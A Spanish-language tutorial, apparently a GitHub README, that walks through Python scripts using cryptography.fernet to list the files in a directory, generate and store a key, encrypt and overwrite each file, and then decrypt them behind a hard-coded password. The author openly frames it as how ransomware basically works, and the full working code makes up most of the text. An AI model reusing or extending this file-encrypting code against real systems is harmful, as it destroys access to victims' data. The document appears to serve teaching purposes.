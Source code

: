 
---
# PoC_tutorial: `cryptography.fernet`

Este documento es un **tutorial práctico paso a paso** sobre la librería `cryptography.fernet` de Python, mostrando cómo listar archivos, generar una clave, cifrar y descifrar ficheros, e incluso añadir un control de acceso mediante contraseña.

---

## Introducción a `cryptography.fernet`

`cryptography.fernet` permite realizar cifrado simétrico seguro con autenticación de mensajes integrada. Sus principales características:

- Generación de claves seguras (`Fernet.generate_key()`).
    
- Funciones de cifrado y descifrado (`encrypt()` y `decrypt()`) que manejan `bytes`.
    
- Protección de integridad y confidencialidad de los datos.
    

El tutorial muestra la evolución de scripts que usan Fernet desde operaciones básicas hasta un flujo completo de cifrado/descifrado. Podría decirse que esto es cómo funciona básicamente un ransomware

---

# Evolución de Scripts

## Script 1 — `encrypt_v1.py`

**Función:** Listar archivos en el directorio actual, excluyendo el script propio.

```python
#!/usr/bin/env python3
import os
files = []
for file in os.listdir():
    if file == "encrypt_v1.py":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
```

**Salida:**

```
['saludo.txt', 'enfado.txt', 'pwned.txt']
```

## Script 2 — `encrypt_v2.py`

**Función:** Generar una clave Fernet.

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file == "encrypt_v1.py":
        continue
    if os.path.isfile(file):
        files.append(file)
key = Fernet.generate_key()
print(key)
```

**Salida:** Clave Fernet en bytes.

## Script 3 — `encrypt_v3.py`

**Función:** Guardar la clave en un fichero.

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file == "encrypt_v1.py":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
key = Fernet.generate_key()
with open("thekey.key", "wb") as k:
    k.write(key)
```

## Script 4 — `encrypt_v4.py` + `decrypt.py`

**Función:** Cifrar y descifrar archivos usando la clave Fernet.

**Cifrado (`encrypt_v4.py`):**

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file in ["encrypt_v4.py", "thekey.key", "decrypt.py"]:
        continue
    if os.path.isfile(file):
        files.append(file)
key = Fernet.generate_key()
with open("thekey.key", "wb") as k:
    k.write(key)
for file in files:
    with open(file, "rb") as f:
        contents = f.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as f:
        f.write(contents_encrypted)
```

**Descifrado (`decrypt.py`):**

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file in ["encrypt_v4.py", "thekey.key", "decrypt.py"]:
        continue
    if os.path.isfile(file):
        files.append(file)
with open("thekey.key", "rb") as k:
    secretkey = k.read()
for file in files:
    with open(file, "rb") as f:
        contents = f.read()
    contents_decrypted = Fernet(secretkey).decrypt(contents)
    with open(file, "wb") as f:
        f.write(contents_decrypted)
```

**Salida:** Archivo cifrado y luego descifrado correctamente.

## Script 5 — `encrypt_v5.py` + `decrypt.py` con contraseña

**Función:** Añadir control de acceso mediante contraseña al descifrado.

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file in ["encrypt_v5.py", "thekey.key", "decrypt.py"]:
        continue
    if os.path.isfile(file):
        files.append(file)
with open("thekey.key", "rb") as k:
    secretkey = k.read()
secretPass = "pwned"
user_Pass = input("\n[+] Introduce el pase secreto para desencriptar tus archivos: ")
if user_Pass == secretPass:
    for file in files:
        with open(file, "rb") as f:
            contents = f.read()
        contents_decrypted = Fernet(secretkey).decrypt(contents)
        with open(file, "wb") as f:
            f.write(contents_decrypted)
    print("\n[!] Enhorabuena tus archivos fueron descifrados\n")
else:
    print("\n[!!!] Ese no es el pase secreto, lo siento.")
```

**Salida:**

- Contraseña incorrecta → no descifra.
    
- Contraseña correcta (`pwned`) → archivos restaurados.
    

---

**Resumen:**  
Este tutorial muestra:

1. Listar archivos.
    
2. Generar y guardar clave Fernet.
    
3. Cifrar archivos y sobrescribirlos.
    
4. Descifrar archivos correctamente.
    
5. Añadir control de acceso por contraseña antes del descifrado.
    

El flujo se puede extender con mejoras de seguridad, exclusión de archivos por patrones, manejo de errores y logging.

---


